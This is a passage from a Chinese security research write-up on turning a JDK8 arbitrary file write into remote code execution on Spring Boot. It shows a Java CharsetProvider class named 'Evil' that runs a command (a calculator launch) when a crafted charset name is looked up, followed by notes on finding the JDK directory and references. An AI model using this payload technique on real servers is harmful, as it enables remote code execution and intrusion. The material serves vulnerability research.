 import java.io.IOException;  
import java.nio.charset.Charset;  
import java.util.HashSet;  
import java.util.Iterator;

/\*\*  
 \* @author threedr3am  
 \*/  
public class Evil extends java.nio.charset.spi.CharsetProvider {

 @Override  
 public Iterator&lt;Charset&gt; charsets() {  
 return new HashSet&lt;Charset&gt;().iterator();  
 }

 @Override  
 public Charset charsetForName(String charsetName) {  
 //因为Charset会被缓存，导致同样的charsetName只能执行一次，所以，我们可以利用前缀触发，后面的内容不断变化就行了，甚至可以把命令通过charsetName传入 if (charsetName.startsWith("Evil")) {  
 try {  
 Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");  
 } catch (IOException e) {  
 e.printStackTrace();  
 }  
 }  
 return Charset.forName("UTF-8");  
 }  
}

0x07 其他
=======

笔者在挖掘漏洞时是基于对服务器可控的情况下，可直接看到服务器上的JDK目录，所以在实际场景中可能需要对jdk目录做爆破，LandGrey师傅制作了对应的环境，同时也对目录做了收集\[2\].

在上传时一般也无法创建目录，同时classes目录通常需要用户自行创建，所以classes和spi的利用方式可能相对于直接覆盖charset.jar的方式来说实用性较差，但直接覆盖charset.jar确实存在有破坏目标环境的可能性。

0x08 参考
=======

\[1\]<https://landgrey.me/blog/22/>

\[2\]<https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks>

\[3\]<https://threedr3am.github.io/2021/04/14/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84SpringBoot%20RCE/>

\[4\]<https://threedr3am.github.io/2021/04/13/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84Fastjson%20RCE/>

\[5\]<https://www.cnblogs.com/Ye-ye/p/12748365.html>

\[6\][https://blog.csdn.net/weixin\_30568317/article/details/114965999](https://blog.csdn.net/weixin_30568317/article/details/114965999)